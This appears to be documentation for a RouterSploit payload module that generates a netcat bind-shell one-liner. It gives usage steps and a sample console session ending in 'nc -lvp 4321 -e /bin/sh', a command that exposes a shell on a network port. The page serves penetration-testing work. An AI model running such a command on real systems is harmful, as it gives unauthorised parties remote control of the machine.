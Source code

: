 ## Description

Module generates payload that creates interactive tcp bind shell by using netcat one-liner. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/cmd/netcat_bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates netcat tcp bind shell payload.

## Scenarios

```
rsf > use payloads/cmd/netcat_bind_tcp
rsf (Netcat Bind TCP) > set rport 4321
[+] rport => 4321
rsf (Netcat Bind TCP) > run
[*] Running module...
[*] Generating payload
nc -lvp 4321 -e /bin/sh
```
